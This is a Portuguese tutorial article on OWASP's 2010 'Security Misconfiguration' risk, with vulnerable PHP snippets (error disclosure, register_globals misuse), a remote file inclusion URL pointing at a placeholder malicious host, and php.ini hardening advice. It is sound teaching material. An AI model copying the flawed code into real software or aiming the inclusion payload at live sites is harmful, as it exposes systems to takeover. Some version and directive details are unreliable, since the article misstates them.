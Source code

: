 ```yaml
---
layout:      grid12-article
title:       A6 Security Misconfiguration
description: Artigo sobre a vulnerabilidade Configuração Incorreta de Segurança, sexto item da lista TOP 10 da WOASP
meta:        (OWASP top ten 2010)
---
```


Configurações incorretas de segurança podem ocorrer na aplicação web, no servidor web, no módulo do PHP, no framework, 
em bancos de dados e em todo componente necessário para que a aplicação funcione corretamente. Quando atualizações não 
são instaladas, quando os softwares não são devidamente configurados, quando usuários e senhas que ativam o software são
mantidas, temos então, a ocorrência da vulnerabilidade de Configuração Incorreta de Segurança. Ela deve ser evitada com
os esforços conjuntos de programadores e administradores uma vez que não diz respeitos à apenas o código fonte da aplicação.

A exploração é considerada fácil pois o atacante utiliza-se, por exemplo, de contas criadas por padrão na instalação de 
sistemas. O impacto é moderado pois, uma vez que esta vulnerabilidade é explorada, pode comprometer por completo todo
o sistema, a tabela abaixo sintetiza a classificação do risco.

![Mapeamento de risco Configuração Incorreta de Segurança](tabela-risco.png "Mapeamento de risco Configuração Incorreta de Segurança")


Exemplo de aplicação vulnerável
---

Suponha que a aplicação utilize framework's como [CideIgniter](http://www.codeigniter.com/ "link-externo") ou
[Cake](http://cakephp.org/ "link-externo"), por exemplo. Vulnerabilidades XSS são encontradas e uma atualização é 
lançada para corrigir o problema. Até que o framework não seja atualizado, atacantes poderão explorar as
vulnerabilidades da aplicação.

Outro exemplo seria quando os dados e os componentes padrões necessários para a instalação de uma aplicação, banco de
dados ou componente são instalados automaticamente e não são removidos. Um atacante poderá descobrir as páginas de 
administração no servidor e autenticar-se utilizando o usuário e senha padrão da instalação e tomar controle sobre a 
aplicação e/ou servidor.


Mais um exemplo seria quando a listagem dos diretórios não fora desativada. Um atacante, percebendo essa vulnerabilidade,
poderá listar os diretórios da aplicação e encontrar outras vulnerabilidades.

Ainda como exemplo, a configuração e/ou codificação de uma aplicação expõe, indevidamente, os erros ou outras informações
sobre o sistema ou o servidor. O atacante utilizará essa informação para encontrar e explorar vulnerabilidades potenciais.
O código 6.1 ilustra a exposição desnecessária de erros. Na linha 02 é feita a tentativa de conexão com o banco de dados
 e o resultado é armazena na variável `$link`. A linha 03 testa a variável `$link`, caso o valor seja `false` o script
executa a linha 04 que, por sua vez, interrompe a execução do script através da função `die()`. Esta função aceita um 
parâmetro do tipo string e exibe esse valor no navegador. No exemplo será enviado ao navegador o resultado da função
`mysql_error()`.

{% highlight php linenos %}
<?php
$link = mysql_connect('localhost', 'mysql_user', 'mysql_password');
if (!$link) {
    die( mysql_error() );
}
?>
{% endhighlight %}

Importante notar que a não utilização da função `die()` não sanaria o problema por completo. Se o módulo de PHP estiver
configurado para exibir erros, uma mensagem como a mostrada no código abaixo a seguir seria exibida, entregando, dessa
forma, informações valiosas para o atacante como o servidor e o usuário.

    Warning mysql_connetc()[function.mysql-connect]: Access denied for user 'usuario'@'192.168.2.101'
    (using password: YES) in /www/html/appweb/admin.php on line 7


Prevenção
---

Para garantir a prevenção da aplicação web contra esta vulnerabilidades é preciso entender e compreender as configurações
do módulo PHP. O capítulo de configurações do projeto Guia de Desenvolvimento da OWASP traz recomendações específicas 
para cada configuração do módulo PHP (OWASP Development Guide: Chapter on Configuration, 2010).

A diretiva __register_globals__ vem com valor padrão `off` (desabilitado) desde a versão 4.2.5. Ela tornou-se obsoleta a 
partir da versão 5.3.0 e foi removida na versão 6.0.0. Essa diretiva, quando habilitada, cria variáveis de vários tipos,
inclusive variáveis oriundas de formulários HTML. Isso significa que é possível usar variáveis sem saber de onde elas 
vieram. Variáveis internas que são definidas no script se misturam com dados enviados pelos usuários. Segundo o manual 
do PHP, a diretiva em si não é insegura, o uso incorreto dela é que é. Conforme o código abaixo, na linha 02 o resultado 
da função `usuario_autenticado()` é testado. Se verdadeiro é atribuído `true` a variável `$autorizado`. Na linha 06 é 
testado o valor da variável `$autorizado`, se verdadeiro o script segue sua execução normalmente, acreditando-se que o 
usuário foi realmente autenticado.

{% highlight php linenos %}
<?php
if (  usuario_autenticado()  ) {
    $autorizado = true;
}

if ($autorizado) {
    include "/dados/autamentes/sensiveis.php";
}
?>
{% endhighlight %}

Estando o valor da diretiva __register_globals__ igual a `on` (habilitada) a variável `$autorizado` seria facilmente 
manipulada. Alterando o valor para `off` o código funcionário corretamente (isento da vulnerabilidade). Outra forma de
concertar o código seria inicializar a variável antes do uso, neste caso o código funcionaria independentemente do 
estado de register_globals.

O __safe_mode__ é um conjunto de restrições de funções e pode realmente aumentar a segurança em um ambiente de servidor 
compartilhado. Ela foi removida na versão 6.0.0 por ser considerado, arquiteturalmente, incorreto resolver esse
problema (servidores compartilhados) no nível de módulo do PHP.

A diretiva __disable_functions__ permite desabilitar funções internas do PHP. Ela recebe uma lista de nomes de funções 
separadas por virgula. Ela não é afetada pela diretiva `safe_mode` e deve ser configurada diretamente no arquivo `php.ini`
não sendo possível efetuar a configuração no arquivo `httpd.conf`.


A diretiva __open_basedir__ limita os arquivos que podem ser abertos ao diretório especificado e seus subdiretórios, 
incluindo o arquivo em si. Essa diretiva não é afetada pelo estado do modo seguro (safe mode), esteja este habilitada
ou não.

A diretiva __allow_url_fopen__ ativa o dispositivo URL-aware fopen wrappers que permite o acesso a objetos URL como 
arquivos. Se esta diretiva estivar habilitada o atacante poderá executar arquivos externos como a demonstra o código 
abaixo.

    http://www.appvulneravel.com/index.php?pg=http://sitemalicioso.com/atacar.php

Com a diretiva __error_reporting__ é possível determinar quais os erros, mensagens e avisos o PHP registrará. A 
recomendação é `E_ALL`, dessa forma, todos os erros e mensagens de alerta (exceto os de nível `E_SRICT`) serão reportados.

A diretiva __log_errors__ refere-se ao nome do arquivo onde os erros do script serão logados.


A diretiva __display_errors__ determina se os erros serão ou não exibidos em tempo de execução. A recomendação é `off`
(desabilitado) para ambiente de produção e `on` (habilitado) para ambiente de desenvolvimento.

A diretiva __magic_quotes_gpc__ define o estado para as aspas mágicas para operações do tipo `GPC` (get, post e cookie).
Quando as aspas mágicas estiverem em `on`, todas `'` (aspas simples), `"` (aspas duplas), `\` (barras invertidas) e `NULL's`
são codificados (escapados) com uma barra invertida automaticamente. A recomendação da OWASP é que seu valor seja `on` 
(habilitado), porém esta função está obsoleta na versão 5.3.0 e foi removida da versão 6.0.

A diretiva __post_max_size__ determina o valor máximo de dados que poderá ser enviado para o servidor. Deve ser mantido 
o valor mínimo. Por padrão é `8mb`.

A diretiva __upload_max_filesize__ define o tamanho máximo de um arquivo enviado, medido em bytes, deve ser mantido o 
valor mínimo.

A diretiva __memory_limit__ configura o tamanho máximo de memória utilizada por um script. Isto evita, por exemplo, que
 um script malicioso consuma toda memória disponível em um servidor.


